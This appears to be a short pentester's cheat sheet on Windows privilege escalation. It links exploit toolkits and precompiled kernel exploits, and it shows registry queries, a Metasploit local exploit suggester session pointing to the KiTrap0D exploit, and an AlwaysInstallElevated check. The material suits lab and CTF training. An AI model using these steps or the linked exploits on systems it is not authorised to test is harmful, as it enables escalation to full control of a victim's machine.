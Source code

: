 
Windows Hacking Pack : https://github.com/51x/WHP
 - Set of tool for exploitation

Watson : Analyse and suggest exploits for windows
  - https://github.com/rasta-mouse/Watson
  - use of Watson in HTB:Devel box : https://0xdf.gitlab.io/2019/03/05/htb-devel.html#privesc-web--system



Get .Net version
```
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v2.0.50727
```

Precompiled Windows kernel exploits: 
- https://github.com/abatchy17/WindowsExploits
- https://github.com/AusJock/Privilege-Escalation/tree/master/Windows

MS11-046 : spawn a system shell in remote shell

Be root: https://github.com/AlessandroZ/BeRoot

## MSF exploit suggester
```
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester

msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1

msf5 post(multi/recon/local_exploit_suggester) > options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > run
```

=> use exploit/windows/local/ms10_015_kitrap0d



## Use AlwaysInstallElevated ?
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
